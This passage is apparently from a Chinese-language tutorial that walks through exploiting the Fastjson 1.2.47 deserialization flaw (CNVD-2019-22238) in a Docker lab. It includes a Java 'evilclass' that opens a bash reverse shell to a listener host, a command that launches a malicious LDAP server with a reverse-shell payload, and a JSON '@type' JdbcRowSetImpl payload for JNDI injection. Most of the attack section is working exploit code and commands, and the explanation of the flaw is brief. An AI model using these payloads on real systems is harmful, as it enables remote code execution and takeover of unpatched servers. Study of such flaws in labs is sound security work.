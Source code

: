 ![](https://gitee.com/fuli009/images/raw/master/public/20210822095649.png)

若需要反弹shell只需要把java文件中的`String[] commands`改为bash反弹命令即可，这里不再赘述

    
    
    import java.lang.Runtime;import java.lang.Process;public class evilclass{static {try {Runtime rt = Runtime.getRuntime();String[] commands = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.1.8/9001 0>&1"};Process pc = rt.exec(commands);pc.waitFor();} catch (Exception e) {// do nothing}}}

# CNVD‐2019‐22238

CNVD-2019-22238即Fastjson1.2.47 反序列化漏洞

## 漏洞原理

Fastjson提供了autotype功能，允许用户在反序列化数据中通过“@type”指定反序列化的类型，其次，Fastjson自定义的反序列化机制时会调用指定类中的setter方法及部分getter方法，那么当组件开启了autotype功能并且反序列化不可信数据时，攻击者可以构造数据，使目标应用的代码执行流程进入特定类的特定setter或者getter方法中，若指定类的指定方法中有可被恶意利用的逻辑（也就是通常所指的“Gadget”），则会造成一些严重的安全问题。并且在Fastjson
1.2.47及以下版本中，利用其缓存机制可实现对未开启autotype功能的绕过。

影响版本为 `fastjson < 1.2.47`

## 漏洞复现

首先进入1.2.47的docker环境

![](https://gitee.com/fuli009/images/raw/master/public/20210822095650.png)

这里的jdk版本还是8u102，这个版本没有com.sun.jndi.rmi.object.trustURLCodebase的限制，可以继续利用RMI或者LDAP进行命令执行

上面用了RMI进行命令执行，这里使用LDAP进行漏洞复现

LDAP使用的工具为fastjson_tool，首先clone到本地

    
    
    git clone https://github.com/wyzxxz/fastjson_rce_tool.git

首先启动LDAP服务，8888为LDAP服务的端口，后面跟的是bash反弹shell的命令

    
    
    java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.1.8 8888 "bash=/bin/bash -i  >& /dev/tcp/192.168.1.10/9001 0>&1"

这里执行命令之后给出了两个payload，我们使用下面这个payload复制一下

![](https://gitee.com/fuli009/images/raw/master/public/20210822095651.png)

这里还是跟上面一样需要改GET方法为POST方法，添加Content-Type:application/json，在就是把之前生成的payload复制

    
    
    {"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.1.8:8888/Object","autoCommit":true}}

发包使用nc监听8888端口即可收到反弹shell
